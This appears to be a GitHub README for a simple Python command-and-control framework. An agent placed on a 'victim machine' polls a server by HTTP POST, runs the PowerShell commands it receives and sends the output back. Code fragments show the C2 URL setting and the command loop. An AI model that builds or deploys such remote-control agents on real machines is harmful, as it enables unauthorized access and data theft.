 # pyc2-c2overPOSTresponse

This project is still under development. This is a simple C2 framework that allows you to run Powershell commands. 

It works as follows: 
- Run server.py to start a http server
- Run agent.py to send a POST request
- The server sesponds to the request with a powershell command that is ran by agent.py
- agent.py sends another POST request after the specified time with the command response
- I am working on a mechanism to allow the attacker to send a different response but for now it's a loop

## Installation

Download the .py files and run them. 

## Usage


Agent.py needs to be installed and ran on the victim machine. Provide the C2 url as shown below.

```
    url = "http://localhost:8080"  # Replace your C2 URL 
    # This string will be sent to C2 to verify it's alive and return output of a command ran
    message_body = "ALIVE, Command Response: {}".format(output)
```

The http requests are sent in time intervals. You can set this in Agent.py as well. 

```
output = 'No command Ran'
    while True:
        command_to_run = http_sender(output)
        if command_to_run:
            output = run_powershell_command(command_to_run) 
        # Sleep for 2 minutes (120 seconds) before sending the next request   
        time.sleep(10)  
        count =+ 1
```

Each HTTP POST request will require you to enter a desired command from the server side that will be sent in the HTTP response message body

## Summarized UML Sequence Diagram 

<img width="452" alt="image" src="https://github.com/dewardvide/pyc2-c2overPOSTresponse/assets/91884298/cb05e72e-d5bd-4f2e-8064-6c5590e14354">

## Contributing

Pull requests are welcome. For major changes, please open an issue first
to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License

[MIT](https://choosealicense.com/licenses/mit/)
